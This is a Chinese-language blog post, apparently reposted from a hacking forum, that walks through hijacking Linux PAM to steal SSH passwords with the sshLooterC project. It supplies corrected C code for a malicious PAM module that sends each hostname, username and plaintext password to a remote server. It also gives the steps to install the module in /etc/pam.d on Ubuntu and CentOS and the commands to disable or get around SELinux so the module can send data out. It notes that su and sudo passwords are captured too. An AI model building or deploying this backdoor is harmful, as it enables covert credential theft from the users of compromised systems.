




# 0x00 前言

使用strace来获取ssh密码的方法并不是100％有效的，因为strace的输出在不同linux发行版上会发生变化，需要有针对性的写匹配规则，于是乎就找到了另一种方法PAM劫持SSH密码。参考链接在最后。

本文所说介绍的技术也不是什么新技术，更多是一个脚本小子踩坑的过程。已经掌握的大佬们可以一笑而过。

# 0x10 使用说明

### 0x11 编译

下载sshLooterC项目： https://github.com/mthbernardes/sshLooterC

编译时需要安装依赖。 Centos7：

`yum -y install curl-devel pam-devel`

Ubuntu16：

`sudo apt-get install -y libcurl4-openssl-dev libpam0g-dev`

源项目代码里有一些Bug，需要修改一下。

```c
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
  int retval;
  const char* username;
  const char* password;
  char message[1024];
  char hostname[128];
  retval = pam_get_user(pamh, &username, "Username: ");
  //该无法正常获得密码
  pam_get_item(pamh, PAM_AUTHTOK, (void *) &password);
  if (retval != PAM_SUCCESS) {
    return retval;
  }
  gethostname(hostname, sizeof hostname);
  snprintf(message,2048,"Hostname: %s\nUsername %s\nPassword: %s\n",hostname,username,password);
  sendMessage(&message);
  return PAM_SUCCESS;
}
```

修改为一下代码：

```c
//添加函数声明
int pam_get_authtok(pam_handle_t *pamh, int item, const char **authtok, const char *prompt);

PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
  int retval;
  const char* username = NULL;
  const char* password = NULL;
  const char* prompt = NULL;
  char message[1024];
  char hostname[128];
  retval = pam_get_user(pamh, &username, "Username: ");
  //获得密码
  pam_get_authtok(pamh, PAM_AUTHTOK, &password, prompt);
  if (retval != PAM_SUCCESS) {
    return retval;
  }
  gethostname(hostname, sizeof hostname);
  snprintf(message,2048,"Hostname: %s\nUsername: %s\nPassword: %s\n",hostname,username,password);
  sendMessage(&message);
  return PAM_SUCCESS;
}
```

当然，由于本土特色，正常是无法访问telegram的，所以需要自定义一下服务端。

  

使用make编译，生成looter.so即可，该so文件ubuntu和centos上是通用的。

### 0x12 配置

##### Ubuntu16

将looter.so存放到`/lib/x86_64-linux-gnu/security/`目录下。 修改`/etc/pam.d/common-auth`文件，将`auth optional looter.so`添加到**文件末尾**。如果不添加到文件末尾的话，你就会发现你的SSH能成功登录，但是图形界面就登不进去了，即使密码正确 :( 。配置结果如图：

  

##### Centos7

将looter.so存放到`/usr/lib64/security/`目录下。 需要同时修改`/etc/pam.d/password-auth`和`/etc/pam.d/system-auth`，将`auth optional looter.so`添加到**文件开头**。 然后非常关键的一步操作（做实验时，不知道有SELinux这个机制，差点又自闭了）：

```shell
#临时设置SELinux成为permissive模式，重启后失效
setenforce 0

#显示SELinux的当前模式
getenforce

#或者修改/etc/selinux/config，永久生效，需要重启机器
SELINUX=disabled
```

这时可能会有小伙伴来问了，怎么不关闭SElinux，成(zi)功(ji)劫(zhe)持(teng)呢？ 我早就猜到会有小伙伴这样问了（不，只有我会？？？）

**解决方法：** 修改looter.so的SELinux上下文，将文件类型修改为lib_t（so文件类型限制）。

```shell
chcon -t lib_t /usr/lib64/security/looter.so

#顺带一提，查看文件类型的命令
ls -Z /usr/lib64/security/looter.so
```

从以下命令列出来的端口中，选择一个作为服务端的通信端口(端口安全限制)，我这里选择了25151端口。

`semanage port -l`

生成本地策略模块以允许sshd name_connect 访问 port 25151 tcp_socket（通信策略限制）。

```shell
ausearch -c 'sshd' --raw | audit2allow -M my-sshd
semodule -i my-sshd.pp
```

对SELinux安全机制感兴趣的，推荐给你们一个用户指南： https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security-enhanced_linux/index

### 0x13 劫持

最终效果如图： 不止ssh登录时会被记录密码，su、sudo等命令都是可以记录的。

  

# 0x20 结语

解决错误的小技巧（避免自闭的小技巧？？？）：

1. 无法在Centos成功执行的时候，可使用strace劫持sshd进程，查看报错信息，可以定位到一部分问题。

  

2.  感谢SELinux警报浏览器，成功拯救了一个即将自闭的少年（能把报错详细信息和处理建议写出来，真的是太让人感动了）。

  

# 参考链接

1. https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html
2. https://github.com/mthbernardes/sshLooter
3. https://github.com/mthbernardes/sshLooterC

# 更新信息

| 修订时间   | 修订人   | 简述     |
| :--------- | :------- | :------- |
| 2020.05.01 | 3t2ugg1e | 创建文章 |

注: 文章来自土司：https://www.t00ls.net/thread-56235-1-1.html 欢迎大家投稿注册发言。